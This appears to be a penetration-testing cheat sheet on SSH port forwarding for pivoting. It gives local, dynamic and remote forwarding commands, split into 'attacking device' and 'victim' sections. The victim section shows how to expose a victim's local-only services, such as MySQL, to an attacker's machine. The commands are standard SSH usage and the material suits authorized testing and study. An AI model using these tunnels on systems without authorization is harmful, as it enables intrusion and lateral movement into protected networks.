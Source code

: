 ### From Attacking Device

#### Connect to a port on another device

```bash
ssh -N -L [local_port]:[target_ip]:[target_port] [user]@[target]
```

Examples:

Opens 3389 locally. Connected to 3389 locally will forward traffic to 10.1.1.10 on port 3389:

```bash
ssh -N -L 3389:10.1.1.10:3389 [user]@[target]
```

```bash
sudo ssh -N -L [local_port]:127.0.0.1:[target_port] [user]@[target]
```

Dynamic Port Forwarding:

```bash
sudo ssh -N -D 127.0.0.1:1080 [user]@[target]
```

### From Victim

This setup creates a new port on the attacker's machine `[target]`, which forwards traffic originating from the victim's machine (`127.0.0.1`). If a service (e.g., MySQL on port `3306`) is only accessible locally on the victim (`127.0.0.1:3306`), SSH remote port forwarding can be used to expose it to the attacker's machine.

```bash
ssh -N -R [local_port]:127.0.0.1:[target_port] [user]@[target]
```

or, to restrict access to a specific IP on the attacker's machine:

```bash
ssh -N -R [attacker_ip]:[local_port]:127.0.0.1:[target_port] [user]@[target]
```

Example

```bash
ssh -N -R 3389:127.0.0.1:3389 [user]@[target]
ssh -N -R 10.10.5.1:3389:127.0.0.1:3389 [user]@[target]
```